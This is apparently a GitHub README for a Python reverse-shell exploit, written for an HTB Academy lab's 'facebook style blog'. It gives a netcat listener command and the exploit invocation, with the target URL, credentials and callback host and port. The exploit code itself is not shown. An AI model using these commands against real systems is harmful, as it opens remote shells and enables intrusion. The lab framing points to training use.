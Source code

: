 # facebook-style-blog-rce
python based revshell exploit for facebook style blog for HTB academy shell module.

# Usage: 
start listner in one terminal window : \r\n
nc -lnvp 4444

on another terminal window, execute below command : 
python3 facebook_styled_blog_rce.py http://blog.inlanefreight.local -u <username> -p <Password> --lhost <Listening Address> --lport 4444
